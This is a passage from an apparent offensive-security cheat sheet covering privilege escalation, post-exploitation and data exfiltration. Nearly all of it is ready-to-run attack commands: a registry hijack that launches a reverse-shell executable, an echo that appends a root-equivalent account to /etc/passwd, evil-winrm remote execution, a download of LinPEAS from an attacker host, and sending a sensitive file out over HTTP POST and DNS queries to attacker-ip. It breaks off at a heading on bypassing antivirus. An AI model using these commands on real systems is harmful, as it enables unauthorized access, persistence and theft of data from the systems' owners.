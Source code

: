 ## 10\. Advanced Privilege Escalation Techniques

### Windows COM Hijacking for Persistence

```powershell
reg add "HKCU\Software\Classes\mscfile\shell\open\command" /ve /d "C:\reverse-shell.exe" /f  
```

### Linux Exploiting Writable `/etc/passwd`

```bash
echo 'root2:x:0:0:root:/root:/bin/bash' >> /etc/passwd  
su root2  
```

* * *

## 11\. Post-Exploitation Tools

### WinRM Authentication & Execution

```bash
evil-winrm -i <target-IP> -u <user> -p <password>  
```

### Linux Enumeration with LinPEAS

```bash
wget http://attacker-ip/linpeas.sh  
chmod +x linpeas.sh  
./linpeas.sh  
```

* * *

## 12\. Data Exfiltration Techniques

### Exfiltrating Data Over HTTP (Python)

```python
python3 -m http.server 8080  
curl -X POST -d @sensitive-data.txt http://attacker-ip:8080  
```

### Exfiltrating via DNS Tunneling

```bash
dig @attacker-ip -t txt "data-to-exfiltrate"  
```

* * *

## 13\. Bypassing Antivirus & Windows Defender
